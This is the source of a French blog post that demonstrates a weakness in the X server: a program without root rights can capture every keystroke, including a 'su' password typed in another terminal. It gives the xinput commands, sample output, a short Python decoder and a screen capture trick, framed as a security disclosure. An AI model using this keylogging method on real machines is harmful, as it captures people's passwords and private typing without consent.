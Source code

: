 ```yaml
---
layout: post
title: 'Keylogger sous GNU/Linux : enregistrer les touches tapées au clavier'
date: 2011-11-01 22:09:57+01:00
tags:
- planet-libre
- puf
---
```


En tant que [_root_][root], il est bien sûr potentiellement possible de faire ce que
l'on veut sur sa machine, comme enregistrer toutes les touches tapées au clavier
([keylogger][]).

[root]: http://fr.wikipedia.org/wiki/Utilisateur_root
[keylogger]: http://fr.wikipedia.org/wiki/Enregistreur_de_frappe

{: .center}
![keyboard]({{ site.assets }}/keylogger/keyboard.png)

Mais aussi incroyable (et inquiétant) que cela puisse paraître, il est possible
de faire exactement la même chose… sans être _root_.


## Démonstration

Et en plus, c'est tout simple : il suffit pour un programme d'écouter les
événements clavier envoyés par le [serveur X][]. Prenons un outil qui le fait
déjà (ça nous évitera de le coder), `xinput` :

[serveur x]: http://fr.wikipedia.org/wiki/X_Window_System

    sudo apt-get install xinput

Pour obtenir la liste des périphériques utilisables :

    xinput list

Repérer la ligne concernant le clavier (contenant « `AT` ») et noter son _id_ (ici `11`).

    $ xinput list | grep AT
        ↳ AT Translated Set 2 keyboard            	id=11	[slave  keyboard (3)]

Puis démarrer l'écoute sur ce périphérique dans un terminal :

    xinput test 11

Au fur et à mesure que l'on tape du texte, la sortie standard de `xinput`
indique quelles touches sont tapées :

    key press   56 
    key release 56 
    key press   32 
    key release 32 
    key press   57 
    key release 57 
    key press   44 
    key release 44 
    key press   32 
    key press   30 
    key release 32 
    key release 30 
    key press   27 
    key release 27



Cela fonctionne même lorsqu'on écrit dans une autre application, quelque soit
l'utilisateur qui l'a démarrée. En particulier, si dans un autre terminal on
exécute la commande suivante, le mot de passe est bien capturé :

    $ su -
    Mot de passe : 

Un programme avec de simples droits utilisateur peut donc écouter tout ce qui
est tapé au clavier (et donc l'enregistrer, l'envoyer à un serveur…).


## Décodage


### Convertisseur

La sortie de `xinput` n'est pas très utilisable en pratique. Pour la décoder, un
programme d'une vingtaine de lignes en _Python_ suffit (fortement inspiré de [ce
PoC][poc]). Appelons-le [`xinput-decoder.py`][xinput-decoder.py] :

[poc]: http://ardoris.wordpress.com/2011/04/24/linux-keylogger-proof-of-concept/
[xinput-decoder.py]: http://dl.rom1v.com/keylogger/xinput-decoder.py

{% highlight python %}
#!/usr/bin/env python
# -*- coding: UTF-8 -*-
import re, sys
from subprocess import *

def get_keymap():
    keymap = {}
    table = Popen(['xmodmap', '-pke'], stdout=PIPE).stdout
    for line in table:
        m = re.match('keycode +(\d+) = (.+)', line.decode())
        if m and m.groups()[1]:
            keymap[m.groups()[0]] = m.groups()[1].split()[0]
    return keymap

if __name__ == '__main__':
    keymap = get_keymap();
    for line in sys.stdin:
        m = re.match('key press +(\d+)', line.decode())
        if m:
            keycode = m.groups()[0]
            if keycode in keymap:
                print keymap[keycode],
            else:
                print '?' + keycode,
{% endhighlight %}

Pour convertir le résultat à la volée :

    xinput test 11 | ./xinput-decoder.py



### Problème de redirection

Le problème, c'est que lorsqu'on redirige la sortie de `xinput` dans un fichier
ou en entrée d'un autre programme, le contenu ne s'affiche que par salves
(d'environ 128 caractères apparemment). Sans doute une histoire de [buffer][], à
mon avis activé uniquement lorsque la fonction [`isatty()`][isatty] retourne
_true_.

[buffer]: http://fr.wikipedia.org/wiki/M%C3%A9moire_tampon
[isatty]: http://www.kernel.org/doc/man-pages/online/pages/man3/isatty.3.html
http://www.kernel.org/doc/man-pages/online/pages/man3/isatty.3.html

Pour contourner le problème et récupérer les dernières touches tapées, il est
possible de démarrer la commande dans un `screen` :

    screen xinput test 11

puis, à la fin de la capture, d'enregistrer le contenu dans un fichier. Pour
cela, dans le `screen` ainsi ouvert, taper `Ctrl+A`, `:`, puis `hardcopy -h
/tmp/log`.  De cette manière, `/tmp/log` contiendra toute la capture.

Pour convertir le résultat :

    $ ./xinput-parser.py < /tmp/log
    s u space minus Return p a s s w o r d Return a p t minus g e t space u p d a t e Return Control_L a colon


### Améliorations

Une solution plus pratique serait peut-être de démarrer `xinput` par le
programme _Python_, en lui faisant croire qu'il écrit dans un _TTY_ (ce que je
ne sais pas faire). [Quelqu'un][better-keylogger] l'a fait [en
_Perl_][keylog2].

Il faudrait également prendre en compte le relâchement des touches dans le
décodeur, car lorsqu'il affiche `Shift_L a b`, nous n'avons aucun moyen de
savoir si la touche `Shift` a été relâchée avant le `a`, entre le `a` et le `b`,
ou après le `b`.

[better-keylogger]: http://www.kirsle.net/blog/kirsle/building-a-better-keylogger
[keylog2]: http://sh.kirsle.net/keylog2


## Liens

Merci à [Papillon-butineur][] de m'avoir fait découvrir ce fonctionnement étonnant du _serveur X_.

Je vous recommande le billet suivant (en anglais) ainsi que ses commentaires :
[The Linux Security Circus: On GUI isolation][gui-isolation].

**EDIT :** En 2016, [tuxicoman][] a proposé une implémentation en C++.

[papillon-butineur]: http://papillon-butineur.blogspot.com/2011/10/keylogger-sous-linux.html
[gui-isolation]: http://theinvisiblethings.blogspot.com/2011/04/linux-security-circus-on-gui-isolation.html
[tuxicoman]: https://tuxicoman.jesuislibre.net/2016/09/keylogger-pour-x-server.html
